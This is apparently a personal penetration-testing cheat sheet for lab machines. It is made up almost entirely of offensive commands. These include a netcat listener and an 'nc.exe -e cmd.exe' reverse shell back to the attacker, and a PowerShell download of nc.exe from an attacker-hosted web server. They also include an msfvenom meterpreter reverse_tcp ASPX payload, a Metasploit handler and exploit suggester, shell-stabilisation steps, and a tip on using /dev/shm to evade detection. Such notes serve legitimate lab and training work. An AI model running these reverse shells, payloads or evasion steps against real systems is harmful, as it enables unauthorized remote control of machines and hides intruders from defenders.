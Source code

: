 # Cheatsheet

## Evaluation
```bash
# Shows version information
nmap -sC -sV -oA <name> <ip>
```

## Reverse shell

Listen locally with nc
```bash
# n is important!
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

## Sharing files
```
python3 -m http.server 8000
```

# Exploits
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
```

# Tools
https://github.com/infodox/python-pty-shells

## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|x|kill pane|
|$|rename session|
|,|rename tab|
|space|cycle looks|
|t|show time|
|:set -g mouse on|enable mouse|

## msfvenom
Payload generator
example aspx generator for reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx
```

## msfconsole
```bash
# Generic reverse shell for use with the payload.
use exploit/multi/handler

# Suggest working exploits for detected version
use post/multi/recon/local_exploit_suggester
```

# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever

# Note keeping
Cherry Tree - Hierarchical tool with code highlight and screen capture
ctrl+shift+prtscr for screenshot selection

# Resources
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

# Cryptography
http://rumkin.com/tools/cipher/